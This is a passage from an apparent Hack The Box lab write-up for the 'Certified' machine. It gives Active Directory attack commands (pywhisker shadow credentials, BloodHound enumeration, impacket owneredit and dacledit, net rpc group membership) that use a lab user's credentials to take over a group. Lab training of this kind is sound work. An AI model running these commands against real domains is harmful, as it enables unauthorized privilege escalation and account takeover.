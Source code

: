 If we try to add a new entry it won't work.

```sh
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --filename key --export PEM
```

![Pic]({{ '/assets/img/certified/7pic.png' | relative_url }}){: .center-image }

The output itself tells that we dont have enough permissions, so we will have to find a way to obtain them.

To map the AD enviroment and check the permissions that we have we can use [bloodhound.py](https://github.com/fox-it/BloodHound.py) with the parameters showed below.

```sh
python3 bloodhound.py -u judith.mader -p judith09 -d certified.htb -c All -ns 10.10.11.41
```

This will generate some **.json** files that we can upload to BloodHound with the **Upload Data** option.

Once done, if we click in "Find Shortest Path to Domain Admins" we will see that Judith has "GenericOwner" over the "management" group.

![Pic]({{ '/assets/img/certified/8pic.png' | relative_url }}){: .center-image }

As BloodHound show us, we can take advantage of this using several tools of the impacket suite. Firstly we need to make Judith the group owner and after that add her to the group.

```sh
python3 owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
```

![Pic]({{ '/assets/img/certified/9pic.png' | relative_url }}){: .center-image }

Now we have to modify the ACLs to add ourselves to the group.

```sh
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'controlledUser' -target-dn 'groupDistinguidedName' 'domain'/'controlledUser':'password'
```

![Pic]({{ '/assets/img/certified/10pic.png' | relative_url }}){: .center-image }

To add the user to the group we can run this:

```sh
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

If this command doesnt show any output it means it has worked. After doing these changes, if we run once **pywhisker** to add a public key in the management\_svc user is should work.

```sh
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --filename key --export PEM
```

